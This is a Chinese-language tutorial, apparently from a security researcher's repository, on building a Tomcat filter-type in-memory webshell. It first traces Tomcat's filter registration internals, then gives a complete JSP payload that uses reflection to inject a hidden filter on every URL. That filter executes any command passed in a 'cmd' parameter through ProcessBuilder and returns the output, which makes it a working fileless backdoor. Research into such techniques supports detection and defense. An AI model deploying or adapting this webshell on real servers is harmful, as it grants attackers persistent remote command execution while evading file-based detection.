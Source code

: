 # Tomcat-Filter型内存马



当tomcat接收到请求时候，依次会经过Listener -> Filter -> Servlet，监听器的我们已经实现了相对简单一点，过滤器的则相对复杂一点

## 简单实现一个过滤器

首先需要简单写个filter

```java
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter初始化");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter过滤");
        //放行
        chain.doFilter(request,response);
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");

    }
}
```

配置xml

```xml
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>com.yyds.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```



## 流程分析

从调用链当中我们可以看到一个filterChain

![](img/3.png)

可以看到是通过ApplicationFilterFactory.createFilterChain获得

![](img/4.png)

这里获得了filterMaps![](img/5.png)

看看哪里可以添加![](img/6.png)

找到了个addFilterMap还有个addFilterMapBefore，经过具体跟踪确定是addFilterMap，这里添加了一个filterMap

![](img/2.png)

看看这个filterMap里面存了什么FilterName、URLPattern、Dispatcher，并且这个Dispatcher根据类型我们只需要设置一个DispatcherType.REQUEST.name()

![](img/17.png)![](img/18.png)

从调用上可以看到在web.xml当中解析并添加`FilterDef`和`FilterMap`![](img/1.png)

接下来再往下去尝试获取了filterConfig![](img/8.png)

跟入找到了

![](img/9.png)

再来看filterConfigs在哪里设置的，发现在filterStart中有调用

![](img/10.png)

可以看到这里建立了一个映射，这个filterConfig是通过entry.getValue()获得，跟踪下发现是filterDefs

![](img/11.png)

是一个HashMap

![](img/12.png)

通过addFilterDef设置值

![](img/13.png)

看到这里设置了一个name与一个class

![](img/14.png)

设置好后添加进filterDefs即可

![](img/15.png)

接下来再回到ApplicationFilterConfig，看到将StandardContext与filterdef添加进去

![](img/16.png)

## 实现内存马

根据上面流程我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```

![](img/19.png)



![](img/21.png)
